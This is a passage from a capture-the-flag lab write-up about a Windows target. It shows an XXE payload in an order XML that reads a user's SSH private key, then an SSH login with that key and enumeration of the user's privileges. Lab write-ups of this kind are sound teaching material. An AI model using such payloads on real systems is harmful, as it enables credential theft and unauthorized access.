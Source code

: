 And I got the user flag!

![User Flag on Burp Suite With The Poisoned Payload](https://imgur.com/oT0tllJ.png)

---

## Privilege Escalation

At first, I wanted to establish a reverse shell or some sort of a CLI remote access, but after some time of reading online about how I can exploit this, I went back to the `nmap` scan and I found there's an OpenSSH service running on port 22! I went ahead and tried to get the SSH private key with the following payload:

```xml
<?xml version = "1.0"?>
<!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY sp SYSTEM "file:///C:/users/daniel/.ssh/id_rsa"> ]>
 <order>
 	<quantity>
 		9
 	</quantity>
 	<item>
 		&sp;
 	</item>
 	<address>
 		Hello, Friend!
 	</address>
 </order>
```

![Sniffing SSH Key Using Poisoned XXE Burp Suite](https://imgur.com/4vBsCvp.png)

I wrote this rsa key in a file `key` and connected using `ssh` and got a CLI connection:

```shell
┌──(kali㉿kali)-[~]
└─$ chmod 400 key

┌──(kali㉿kali)-[~]
└─$ ssh -i key daniel@$IP
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>
```

Next I checked for my privs - or Daniel's privs - :

```shell
daniel@MARKUP C:\Users\Daniel>powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Daniel> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
PS C:\Users\Daniel> 

```
